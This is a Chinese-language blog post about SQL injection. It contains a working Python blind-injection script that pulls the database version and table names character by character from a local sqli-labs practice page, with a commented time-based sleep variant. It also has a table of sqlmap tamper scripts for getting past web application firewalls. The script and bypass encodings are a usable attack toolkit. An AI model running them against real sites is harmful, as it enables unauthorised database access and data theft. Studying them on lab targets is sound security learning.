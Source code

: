 title: sql injection
date: 2018-04-06 20:19:18
tags: [security,sql]
---
SQL注入,问题经常来源于sql语句字符串拼接的时候未作过滤,其中世界上最好的语言之一——PHP——出现的问题最多.

SQl注入通常用于在线管理自己的数据库👌,臃肿的PhpMyAdmin,需要下载的数据库连接软件.哪里有直接抄起键盘在地址栏直接输入就能管理来的快乐

# 我选择IE6
有比在IE里面上网冲浪更快乐的事情么?
<!--more-->

# 我选择自写脚本
自写脚本更能针对化的对应环境,对于白盒测试~~或者批量~~值得使用.
```python
# coding=utf-8
import string
import time
import requests
import fake_useragent


class Example:

    def __init__(self):
        self.get_table = """select group_concat(distinct table_name) from """ + \
                         """information_schema.columns where table_schema=database()"""
        self.get_database = """select database()"""
        self.get_version = """select @@version"""


def is_success_by_boolen(get_url):
    ua = fake_useragent.UserAgent()
    header = {"User-Agent": ua.random}
    r = requests.get(get_url, headers=header)
    success = "Your Login name"
    if success in r.text:
        return True
    else:
        return False


def is_success_by_time(get_url):
    ua = fake_useragent.UserAgent()
    header = {"User-Agent": ua.random}
    before_time = time.time()
    r = requests.get(get_url, headers=header)
    after_time = time.time()
    offset = after_time - before_time
    success = 8
    if success < offset:
        return True
    else:
        return False


def sql_fun(sql_fun):
    url = r"""http://localhost/sqlilabs/practice/example1.php?id=1' and ({0}) --+"""
    # Timing-based Blind SQL Attacks
    # url = r"""http://localhost/sqlilabs/practice/example1.php?id=1' and if(({0}),sleep(10),0) --+"""

    _long = -1
    out = ""
    for i in range(1, 9999, 1):
        sql = """LENGTH(({0}))={1}""".format(sql_fun, i)
        if is_success_by_boolen(url.format(sql)):
            _long = i
            break
        else:
            pass

    for i in range(1, _long, 1):
        for j in string.printable:#TODO: 二分法优化
            sql = """(substr(({0}),{1},1))=("{2}")""".format(sql_fun, i, j)
            if is_success_by_boolen(url.format(sql)):
                out += '' + j
                break
            else:
                pass
    return out


if __name__ == '__main__':
    print "{0}:  {1}".format(Example().get_version, sql_fun(Example().get_version))

```

# 我选择sqlmap

sqlmap内置有万能的脚本,对于黑盒测试值得使用.

脚本|直译|备注
--|--|--
apostrophemask|单引号伪装|使用*UTF-8*
apostrophenullencode|单引号null编码|用双字节的unicode字符
appendnullbyte|尾部添加null字节|
base64encode|base64编码
between|即*between*|替换 *<* *=* *>*
bluecoat|bypass Blue Coat Systems|老外的公司
chardoubleencode|字符两次编码|即两次url编码
charencode|...|
charunicodeencode|字符unicode编码|即 *%uxxxx* 编码
charunicodeescape|字符unicode转义|即 *\\uxxxx* 编码
commalessmid|mid更少的逗号|MID(A,B,C) --> MID(A FROM B FOR C)
commalesslimit|limit更少的逗号|LIMIT M, N --> LIMIT N OFFSET M
commentbeforeparentheses|括号之前注释|
concat2concatws|concat --> concat_ws|
equaltolike|*=* --> *like*|
escapequotes|转义引号|引号前面加 **\\\\**  (意义?)
greatest|GREATEST()|返回参数的最大值,用于替换*and*后的 *>*
halfversionedmorekeywords|_更多的关键字在一半的版本上_(?)|即加注释,如 */\*!0UNION*<br/>(MySQL < 5.1)
htmlencode|html编码|即 *&#xx;* 编码
ifnull2casewhenisnull|IFNULL() -->CASE WHEN ISNULL()|没见过的操作
ifnull2ifisnull|IFNULL()-->IF ISNULL()|...
informationschemacomment|information_schema注释|information_schema/**/.table
least|LEAST()|返回参数的最小值,用于替换*and*后的 *>*
lowercase|小写|
modsecurityversioned|_ModSecurity版本_(?)|开源的WAF
modsecurityzeroversioned|_ModSecurity零版本_(?)|..
multiplespaces|多个空格|就是瞎鸡儿加空格
nonrecursivereplacement|非递归替换|union --> uni**union**on
overlongutf8|超长的UTF-8|即 *%xx%xx* 编码(不转换字母)
overlongutf8more|更长的UTF-8|即 *%xx%xx* 编码...(转换字母)
percentage|百分号|select --> S%E%L%E%C%T
plus2concat| + --> CONCAT() |适用于(char(x)+char(x))
plus2fnconcat| + --> {fn CONCAT()}|ODBC only
randomcase|随机大小写|
randomcomments|随机注释|__/**/__
securesphere|SecureSphere|WAF
sp_password|sp_password|日志
space2*|spacee -> *
symboliclogical|逻辑符号|AND/OR -> &&/&Iota;&Iota;
unionalltounion|union all -> union|
unmagicquotes|魔术引号|即%bf%27,神奇的**縗'**
uppercase|大写|
varnish|Varnish|WAF
versionedkeywords|_版本的关键字_(?)|即/!*select/,不包括函数
versionedmorekeywords|_更多的版本的关键字_(?)|即/!*select/,包括函数
xforwardedfor|X-Forwarded-For|

# 我选择"啊D"
是...是大佬呢...

<!--小弟我对大佬你的景仰犹如滔滔江水连绵不绝又如黄河泛滥一发不可收拾天地可证日月可鉴。-->

# <h4>参考链接:</h4>

[Sql中操纵字符串的函数方法](https://mariadb.com/kb/en/library/string-functions/)

[SQLMap Tamper Scripts (SQL Injection and WAF bypass)](https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423)